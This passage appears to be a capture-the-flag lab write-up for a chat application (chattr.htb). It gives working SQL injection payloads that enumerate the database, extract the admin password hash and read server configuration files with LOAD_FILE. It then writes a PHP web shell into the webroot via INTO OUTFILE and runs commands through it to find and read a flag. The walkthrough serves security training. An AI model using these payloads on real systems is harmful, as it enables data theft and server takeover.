

The database user is `chattr_dbUser@localhost`, a dedicated application user rather than `root`. This ruled out `FILE` privilege as a given and meant file operations would need to be verified explicitly.

### Database Enumeration

#### Listing Databases

```
') UNION SELECT 1, 2, SCHEMA_NAME, 4 FROM INFORMATION_SCHEMA.SCHEMATA-- -
```



Two databases were returned: `information_schema` (default) and `chattr` (the application database).

#### Listing Tables in chattr

```
') UNION SELECT 1, 2, TABLE_NAME, TABLE_SCHEMA FROM INFORMATION_SCHEMA.TABLES WHERE table_schema='chattr'-- -
```



Three tables: `Users`, `InvitationCodes`, and `Messages`. The `InvitationCodes` table also confirmed where the registration injection landed.

#### Listing Columns in Users

```
') UNION SELECT 1, 2, COLUMN_NAME, TABLE_NAME FROM INFORMATION_SCHEMA.COLUMNS WHERE table_name='Users' AND table_schema='chattr'-- -
```



The `Users` table has five columns: `UserID`, `Username`, `Password`, `InvitationCode`, and `AccountCreated`.

### Question 1 — What is the password hash for the user 'admin'?

```
') UNION SELECT 1, 2, Password, Username FROM chattr.Users WHERE Username = 'admin'-- -
```

**Breakdown:**

- `')`closes the opening quote and parenthesis wrapping the search parameter in the original query
- `UNION SELECT 1, 2, Password, Username FROM chattr.Users` unions the original query with a four-column `SELECT`, reading `Password` into the visible third column and `Username` into the fourth
- `WHERE Username = 'admin'` restricts the result to the admin user's record
- `-- -` comments out the rest of the original query

The admin's password hash was returned in the message bubble.



**Answer:** `—REDACTED—`

The hash uses the Argon2i algorithm, a modern memory-hard hashing function, rather than the MD5 hashes seen in earlier exercises.

### Checking File Privileges

```
') UNION SELECT 1, 2, variable_value, variable_name FROM INFORMATION_SCHEMA.GLOBAL_VARIABLES WHERE variable_name='secure_file_priv'-- -
```



`secure_file_priv` returned empty, confirming that files could be read from and written to anywhere on the system.

### Question 2 — What is the root path of the web application?

Wappalyzer confirmed the server was running Nginx 1.22.1 on PHP.



Reading the main Nginx configuration to find where site configs were included:

```
') UNION SELECT 1, 2, LOAD_FILE("/etc/nginx/nginx.conf"), 4-- -
```



The config included `/etc/nginx/sites-enabled/*`. The MariaDB version string (`deb12u1`) identified the OS as Debian 12. On Debian-based systems, the default Nginx site configuration lives at `/etc/nginx/sites-enabled/default`, as Debian's nginx package creates it automatically. Reading that file:

```
') UNION SELECT 1, 2, LOAD_FILE("/etc/nginx/sites-enabled/default"), 4-- -
```



The relevant lines from the returned config:

```
server {
    listen 443 ssl;
    server_name chattr.htb;
    ...
    root —REDACTED—;
    location / { index index.php; try_files $uri $uri/ /index.php?$query_string; }
    location ~ \.php$ { include snippets/fastcgi-php.conf; fastcgi_pass unix:/run/php/php8.2-fpm.sock; }
    location ^~ /includes/ { deny all; }
}
```

**Breakdown:**

- `listen 443 ssl` confirms this is the HTTPS virtual host
- `server_name chattr.htb` is the hostname the server responds to
- `root —REDACTED—` is the webroot, the directory from which the application files are served
- `location ~ \.php$` shows PHP 8.2 is handling PHP files via FPM
- `location ^~ /includes/ { deny all; }` blocks direct access to the `/includes/` directory

**Answer:** `—REDACTED—`

### Question 3 — Achieve remote code execution, and submit the contents of /flag_XXXXXX.txt below.

#### Writing the Web Shell

With the webroot known and `secure_file_priv` empty, a web shell was written to `—REDACTED—/`. The first attempt used `'bash'` as the `$_REQUEST` parameter name:

```sql
') UNION SELECT "", "", '<?php system($_REQUEST['bash']); ?>', "" INTO OUTFILE '—REDACTED—/shell.php'-- -
```

This failed. The single quotes around `'bash'` inside the PHP string conflicted with the SQL single quote delimiters, breaking the query apart before it reached `INTO OUTFILE`. Instead of fixing that in my second attempt, merely used a numeric index, which needs no quotes inside the PHP:

```sql
') UNION SELECT "", "", '<?php system($_REQUEST[0]); ?>', "" INTO OUTFILE '—REDACTED—/shell2.php'-- -
```

**Breakdown:**

- `')` closes the opening quote and parenthesis in the original query
- `UNION SELECT "", "", '<?php system($_REQUEST[0]); ?>', ""` unions with a four-column `SELECT`, placing the PHP web shell code in the third column and empty strings in the rest
- `INTO OUTFILE '—REDACTED—/shell2.php'` writes the result to the webroot as `shell2.php`
- `-- -` comments out the rest of the original query

Verifying the shell by browsing to it and running `ls`:

```
https://154.57.164.82:40359/shell2.php?0=ls
```



The shell was live, and `shell2.php` itself was visible in the directory listing.

#### Finding the Flag

```
https://154.57.164.82:40359/shell2.php?0=find%20%2F%20-type%20f%20-name%20flag*.txt%20%262%3E%2Fdev%2Fnull
```

URL-decoded command: `find / -type f -name flag*.txt 2>/dev/null`

**Breakdown:**

- `find /` searches the entire filesystem from root
- `-type f` restricts results to files
- `-name flag*.txt` matches filenames starting with `flag` and ending in `.txt`
- `2>/dev/null` redirects error output (permission-denied messages) to `/dev/null` so only successful matches are shown



The flag was at `/—REDACTED—.txt`, in the filesystem root. 

#### Reading the Flag

```
https://154.57.164.82:40359/shell2.php?0=cat%20%2F—REDACTED—.txt
```

URL-decoded command: `cat /—REDACTED—.txt`


**Answer:** `—REDACTED—`